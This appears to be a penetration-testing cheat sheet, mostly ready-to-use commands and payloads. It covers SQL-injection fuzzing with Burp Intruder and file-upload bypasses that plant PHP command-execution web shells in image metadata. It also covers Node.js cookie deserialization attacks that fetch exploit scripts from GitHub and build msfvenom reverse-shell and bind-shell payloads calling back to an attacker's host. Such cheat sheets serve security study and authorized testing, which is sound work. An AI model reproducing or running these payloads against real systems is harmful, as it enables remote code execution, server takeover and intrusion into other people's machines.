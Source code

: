 >Open Burp-suite
Make and intercept a request
Send to intruder
Cluster attack.
Paste in sqlibypass-list
    https://bobloblaw.gitbooks.io/security/content/sql-injections.html
Attack
Check for response length variation

### Bypass img Upload

```bash
Change extension: .pHp3 or pHp3.jpg
Modify mimetype: Content-type: image/jpeg
Bypass getimagesize(): exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
Add gif header: GIF89a;
All at the same time.
# inject PHP into img

exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' shell.jpeg

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg

```

### Node.js
Node.js encodes JSON with base64 for the "profile" cookie.
This can be decoded with burpsuite or other means.

Note about the nodejsshell.py script:
> Dont run nodejsshell.py generated payload on production boxes. It may crash the Node.JS server.
> 
```bash
# RCE for note.js by modifying the profile cookie
wget https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py

python nodejsshell.py <LHOST> <LPORT> |  grep eval |  sed 's/.*/{"rce":"_$$ND_FUNC$$_function (){(&)}()"}/' | base64 -w0; echo \n

# put the above output as the payload of 'profile=', start a listener and submit the request.

# Another script, by nullarmor, can also be used for this task:
wget https://raw.githubusercontent.com/nullarmor/hackthebox-exploits/master/celestial/celestial.py

python3 celestial.py --rhost $IP --lhost <LHOST> --lport <LPORT>

```

```bash
# Using MSFVenom to generate a node.js reverse shell payload:
for p in $(msfvenom -p nodejs/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> -f raw 2>/dev/null | grep -o .|sed 's/.*/x&x/');
do if [ "$p" == "x" ]; then echo -n "32,"; 
else printf "%d," "'${p:1:1}" ; 
fi; 
done | sed 's/.*/{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(&32))}()"}/' | base64 -w0

# Using MSFVenom to generate a bindshell payload
for p in $(msfvenom -p nodejs/shell_bind_tcp lport=<PORT> -f raw 2>/dev/null | grep -o .|sed 's/.*/x&x/');
do if [ "$p" == "x" ]; then echo -n "32,"; 
else printf "%d," "'${p:1:1}" ; 
fi; done | sed 's/.*/{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(&32))}()"}/' | base64 -w0
```